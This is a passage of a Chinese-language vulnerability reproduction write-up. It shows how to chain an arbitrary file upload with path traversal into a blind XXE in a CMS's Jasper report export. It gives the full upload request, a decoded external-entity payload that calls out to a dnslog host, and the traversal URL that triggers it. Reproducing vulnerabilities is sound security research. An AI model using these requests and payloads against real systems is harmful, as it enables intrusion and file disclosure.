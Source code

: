这里还有一个问题："j"  
参数指定的.jrxml  
文件是在/WEB-INF/jrxml/  
目录下，这里我们是不可控的，因此怎么让它能够加载一个存在恶意外部实体的.jrxml  
文件呢？  
  
这里只能结合该cms的文件上传漏洞，写入恶意.jrxml  
，来实现XXE漏洞的利用（如果这里不存在文件上传漏洞，这里无法利用）。  
  
接下来，尝试利用一下：（这里没有回显，使用盲XXE方式）  
  
02  
  
漏洞复现  
  
赤弋安全  
  
任意文件上传一个带恶意外部实体的.jrxml  
文件。  
```
POST /admin/cms/template/save.json HTTP/1.1
Host: 192.168.1.8
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.8
Cookie: JSESSIONID=572DD825340524B985A7A640DC18E95F
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://192.168.1.8/admin/cms/template/getTemplates.html
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 5142
file_path=D%3A%5Capache-tomcat-8.5.68%5Cwebapps%5CROOT%5CWEB-INF%5Cpage%5Cdefault%5Cindex.html&dirs=%2F&res_path=&file_name=..%2F..%2F..%2Fstatic%2Fexp.jrxml&file_content=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%3C!ENTITY%20%25%20exp%20SYSTEM%20%22http%3A%2F%2Fxyblfvjxop.yutu.eu.org%22%3E%25exp%3B%5D%3E%0A%20%0A
```  
  
file_content 解码如下：  
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % exp SYSTEM "http://dnslog">%exp;]>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XdlK79OyQFRdGzXSMq3PlatMI3rDqbdDx6WMZINtQtcTMvhJeysK8uw/640?wx_fmt=png&from=appmsg "")  
  
触发/admin/reprot/expReport.json  
接口，根据功能和接口可以定位到：用户管理-导出全部。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XxrU7X8Kw1w0EhOP6Bfw847M2G0tNbvOEO6mmhSvCNApiaRbM7mVTPGQ/640?wx_fmt=png&from=appmsg "")  
  
```
Url：http://192.168.1.8/admin/reprot/expReport.html?j=../../static/exp&reportName=20160813
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Tb6OwBlojE8AlEU6ow3BtCenuszib138XWibia8EiaBYvA2tdvEx1sItockIfbTlYicdQYmmicuCVSpC9dXVV6R4ctMQ/640?wx_fmt=png&from=appmsg "")  
  